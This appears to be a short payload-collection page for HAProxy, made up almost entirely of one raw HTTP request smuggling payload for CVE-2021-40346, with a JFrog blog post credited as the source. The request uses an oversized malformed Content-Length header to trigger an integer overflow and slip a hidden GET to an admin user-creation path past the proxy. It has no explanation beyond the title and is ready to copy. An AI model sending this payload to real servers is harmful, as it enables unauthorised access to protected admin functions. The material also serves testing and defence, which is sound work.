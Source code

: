 # HAProxy
1. CVE-2021-40346 (HTTP Request Smuggling)
```
POST /index.html HTTP/1.1
Host: abc.com
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 60
 
GET /admin/add_user.py HTTP/1.1
Host: abc.com
abc: xyz
```

Source: 
- [JFrog](https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/)